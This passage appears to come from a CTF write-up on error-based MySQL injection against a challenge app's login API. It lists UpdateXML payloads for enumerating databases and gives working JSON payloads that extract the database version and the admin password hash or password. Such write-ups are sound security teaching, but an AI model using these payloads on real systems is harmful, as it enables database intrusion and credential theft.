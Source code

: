 In `/api/login` route, we found that **the login SQL query doesn't use prepare statement**.

Armed with above information, instead of doing authentication bypass, we can try to exfiltrate data from the database via SQL injection.

**To do so, I'll try to trigger an error:**
```json
{
    "username":"\"",
    "password":"test"
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319115938.png)

Oh!! We've triggered an SQL syntax error!

**Let's try to supply 2 double quotes:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319120015.png)

No error!!

Which means the login api is vulnerable to **Error-based MySQL injection!!**

**Then, according to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function), we can use UpdateXML function to fetch data:**

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Let's do that!

**Find MySQL version:**
```json
{"username":"\"AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-\"","password":"test"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319122137.png)

- MySQL version: 10.6.12-MariaDB

Since we found the `admin` user is in table `users` from the source code, we can skip the enumerating table and column names process.

**Extract `admin` user data:**
```json
{"username":"\"AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),username,0x3a,password,CHAR(126)) FROM users LIMIT 0,1)),null)-\"","password":"test"}
```
